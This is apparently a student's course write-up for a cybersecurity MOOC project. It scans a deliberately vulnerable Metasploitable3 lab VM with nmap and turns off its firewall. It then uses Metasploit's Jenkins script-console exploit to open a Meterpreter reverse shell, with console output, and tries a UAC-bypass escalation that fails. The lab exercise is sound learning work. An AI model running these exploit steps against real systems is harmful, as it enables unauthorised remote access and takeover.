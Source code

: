 # cybersecuritybase-project-2

This is my take on Cybersecurity base MOOC project 2.

## The setup

Project was carried out with os x computer with metasploittable VM initialized via Vagrant. I modified the Vagrantfile provided slightly by exposing VM directly with known ip to host.

```
  config.vm.network "private_network", ip: "55.55.55.5"
```

This gave me the opportunity to install metasploit to my host machine and tinker with metasploittable "from the outside" - just as in a real life scenario. I knew it had a glassfish application server instance listening port 4848 and yes, I was able to access https://55.55.55.5:4848/ from my host machine.

### Installing snort to metasploittable



### Installing metasploit framework

I installed metasploit framework with these instructions provided here https://null-byte.wonderhowto.com/how-to/mac-for-hackers-install-metasploit-framework-0174517/ and my goal is to learn how to use it from console, instead of provided web-ui. Installing metasploit seemed pretty easy and updating exploit registry can be simply done just by `msfupdate`.

## Initial port scan

First thing I learned is that metasploittable can be set to "easy" and "hard" and this effectively means disabling or enabling firewall. Firewall can be disabled easily by ssh'ing to machine `vagrant ssh` and running `netsh advfirewall set allprofiles state off`. I guess enlightened reader can figure out how to re-enable firewall again.

Next, I figured out how to run nmap from metasploit console.

**nmap with firewall enabled**
```
msf > db_nmap  55.55.55.5
[*] Nmap: Starting Nmap 6.47 ( http://nmap.org ) at 2017-03-16 16:24 EET
[*] Nmap: Nmap scan report for 55.55.55.5
[*] Nmap: Host is up (0.00083s latency).
[*] Nmap: Not shown: 991 filtered ports
[*] Nmap: PORT      STATE SERVICE
[*] Nmap: 21/tcp    open  ftp
[*] Nmap: 22/tcp    open  ssh
[*] Nmap: 80/tcp    open  http
[*] Nmap: 4848/tcp  open  appserv-http
[*] Nmap: 8022/tcp  open  oa-system
[*] Nmap: 8080/tcp  open  http-proxy
[*] Nmap: 9200/tcp  open  wap-wsp
[*] Nmap: 49153/tcp open  unknown
[*] Nmap: 49154/tcp open  unknown
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 5.61 seconds
```

**nmap with firewall disabled**
```
msf > db_nmap  55.55.55.5
[*] Nmap: Starting Nmap 6.47 ( http://nmap.org ) at 2017-03-16 16:23 EET
[*] Nmap: Nmap scan report for 55.55.55.5
[*] Nmap: Host is up (0.0021s latency).
[*] Nmap: Not shown: 977 closed ports
[*] Nmap: PORT      STATE SERVICE
[*] Nmap: 21/tcp    open  ftp
[*] Nmap: 22/tcp    open  ssh
[*] Nmap: 80/tcp    open  http
[*] Nmap: 135/tcp   open  msrpc
[*] Nmap: 139/tcp   open  netbios-ssn
[*] Nmap: 445/tcp   open  microsoft-ds
[*] Nmap: 3306/tcp  open  mysql
[*] Nmap: 3389/tcp  open  ms-wbt-server
[*] Nmap: 4848/tcp  open  appserv-http
[*] Nmap: 7676/tcp  open  imqbrokerd
[*] Nmap: 8009/tcp  open  ajp13
[*] Nmap: 8022/tcp  open  oa-system
[*] Nmap: 8031/tcp  open  unknown
[*] Nmap: 8080/tcp  open  http-proxy
[*] Nmap: 8181/tcp  open  unknown
[*] Nmap: 8443/tcp  open  https-alt
[*] Nmap: 9200/tcp  open  wap-wsp
[*] Nmap: 49152/tcp open  unknown
[*] Nmap: 49153/tcp open  unknown
[*] Nmap: 49154/tcp open  unknown
[*] Nmap: 49157/tcp open  unknown
[*] Nmap: 49158/tcp open  unknown
[*] Nmap: 49159/tcp open  unknown
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 4.69 seconds
```
## First succesfull exploit

Here's brief instructions on how to use metasploit framework. At this time, snort was not installed, as I just wanted to first learn how to use metasploit.

```
fizzzzz: msfconsole 
                                                  
                                   ____________
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $a,        |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $S`?a,     |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%__%%%%%%%%%%|       `?a, |%%%%%%%%__%%%%%%%%%__%%__ %%%%]
 [% .--------..-----.|  |_ .---.-.|       .,a$%|.-----.|  |.-----.|__||  |_ %%]
 [% |        ||  -__||   _||  _  ||  ,,aS$""`  ||  _  ||  ||  _  ||  ||   _|%%]
 [% |__|__|__||_____||____||___._||%$P"`       ||   __||__||_____||__||____|%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| `"a,       ||__|%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%|____`"a,$$__|%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%        `"$   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]
 [%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]


       =[ metasploit v4.14.2-dev-437cba84b0563fb067757bb1ec03db9e01ed4579]
+ -- --=[ 1629 exploits - 929 auxiliary - 282 post        ]
+ -- --=[ 472 payloads - 39 encoders - 9 nops             ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

msf > 
```

1. Select exploit
```
msf > use exploit/multi/http/jenkins_script_console 
msf exploit(jenkins_script_console) > 
```
2. Investigate exploit parameters
```
msf exploit(jenkins_script_console) > info

....

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  PASSWORD                    no        The password for the specified username
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOST                       yes       The target address
  RPORT      80               yes       The target port (TCP)
  SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
  SRVPORT    8080             yes       The local port to listen on.
  SSL        false            no        Negotiate SSL/TLS for outgoing connections
  SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
  TARGETURI  /jenkins/        yes       The path to the Jenkins-CI application
  URIPATH                     no        The URI to use for this exploit (default is random)
  USERNAME                    no        The username to authenticate as
  VHOST                       no        HTTP server virtual host
...
```
3. Set exploit arguments
```
msf exploit(jenkins_script_console) > set RHOST 55.55.55.5
RHOST => 55.55.55.5
msf exploit(jenkins_script_console) > set RPORT 8484
RPORT => 8484
msf exploit(jenkins_script_console) > set TARGETURI /
TARGETURI => /
```
4. EXPLOIT!
```
msf exploit(jenkins_script_console) > exploit

[*] Started reverse TCP handler on 55.55.55.1:4444 
[*] Checking access to the script console
[*] No authentication required, skipping login...
[*] 55.55.55.5:8484 - Sending command stager...
[*] Command Stager progress -   2.06% done (2048/99626 bytes)
...
[*] Command Stager progress -  98.67% done (98304/99626 bytes)
[*] Sending stage (957487 bytes) to 55.55.55.5
[*] Command Stager progress - 100.00% done (99626/99626 bytes)
[*] Meterpreter session 1 opened (55.55.55.1:4444 -> 55.55.55.5:49602) at 2017-03-16 20:57:05 +0200

meterpreter > 
```

Meterpreter console is additional part of metasploit and it's intention is to be stealthy console in remote machine. In example meterpreter is opened to a remote machine (the metasploittable3 vm via 55.55.55.5:8484) and it's effectively a reverse shell. Comprehensive listing and additional info on meterpreter is available here: https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/

Now, because jenkins is not run with priviledged used we can't do anything really awesome directly (at least nothing that I'm aware of...).

Next step of using metasploitable is exploits that need session such as we have opened. We can run exploit that needs open session (usually reverse shell?) like this:
```
msf > use exploit/windows/local/bypassuac
msf exploit(bypassuac) > sessions

Active sessions
===============

  Id  Type                     Information                                   Connection
  --  ----                     -----------                                   ----------
  2   meterpreter x86/windows  NT AUTHORITY\LOCAL SERVICE @ METASPLOITABLE3  55.55.55.1:4444 -> 55.55.55.5:50400 (55.55.55.5)

msf exploit(bypassuac) > set SESSION 2
SESSION => 2
msf exploit(bypassuac) > exploit

[*] Started reverse TCP handler on 192.168.0.11:4444 
[-] Exploit aborted due to failure: no-access: Not in admins group, cannot escalate with this module
[*] Exploit completed, but no session was created.
```

Additional important commands include but are not limited to: `back` (unsets current exploit), `edit` (edits exploit's code, usable for checking out what exploit actually does).

